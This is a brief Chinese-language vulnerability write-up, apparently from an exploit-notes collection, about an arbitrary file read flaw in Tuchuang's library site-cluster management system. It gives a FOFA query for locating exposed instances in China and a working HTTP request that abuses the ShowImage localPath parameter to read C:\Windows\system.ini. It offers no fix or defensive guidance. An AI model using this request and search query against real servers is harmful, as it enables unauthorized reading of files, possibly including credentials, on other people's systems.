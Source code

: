 # 图创软件-图书馆站群管理系统-任意文件读取漏洞

## 漏洞描述

图创软件 图书馆站群管理系统 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

> [!NOTE]
>
> 图创软件 图书馆站群管理系统

## FOFA

> [!NOTE]
>
> "广州图创" && country="CN" && body="/interlib/common/"

## 漏洞复现

登录页面如下

![image-20210531232247675](图创软件-图书馆站群管理系统-任意文件读取漏洞.assets/162736307452752.jpg)

漏洞请求包为

```
GET /interlib/report/ShowImage?localPath=C:\Windows\system.ini HTTP/1.1
Host: 
Content-Length: 4
```

![image-20210531232426203](图创软件-图书馆站群管理系统-任意文件读取漏洞.assets/1627363074744137.jpg)

成功读取 system.ini 文件